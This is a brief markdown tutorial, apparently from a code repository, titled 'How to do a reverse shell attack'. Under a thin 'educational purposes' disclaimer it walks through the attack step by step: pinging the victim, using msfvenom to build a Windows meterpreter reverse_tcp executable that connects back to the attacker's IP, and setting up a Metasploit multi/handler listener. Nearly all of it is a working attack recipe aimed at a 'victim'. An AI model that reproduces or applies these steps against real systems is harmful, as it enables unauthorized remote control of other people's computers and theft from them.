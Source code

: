 # How to do a reverse shell attack

Write-up of how to do a reverse shell attack to any type of device, but Apple devices.

**¡¡DISCLAIMER:** 
		**I'm doing this only for educational purposes.**
		**I'm not responsible of any illegal uses.**
		**The bad use of this Write-up may cause damage to the victim!!**

Before starting, we need to get our victim's IP to do this type of attack
1. **Check if the victim's IP is up.**
	```
	ping [IP]
 	```

3. **Create a folder with a basic name and get into that folder.**
	```
	mkdir [folder-name] && cd [folder-name]
	```


5. **On the folder created previously execute the command below:**
	```
 	msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR-IP] LPORT=5555 -f exe > path/to/the/folder/of/step/2/[name].exe
	```


7. **Open metasploit and execute this command:** 
	```
	use exploit/multi/handler
 	```


9. **Once executed the previous command, set-up the payload, in this case meterpreter -- reverse_tcp, for that execute the command below:**
	```
 	set payload windows/meterpreter/reverse_tcp
	```


11. **When the command before get executed, introduce the necessary data to create the reverse shell connection, in this case these are the commands:**
	```
 	set LHOST (YOUR IP)
	set LPORT 5555
 	```


13. **Finally, execute the command below to start listening to possible reverse  shell connections.**
	```
	exploit
 	```


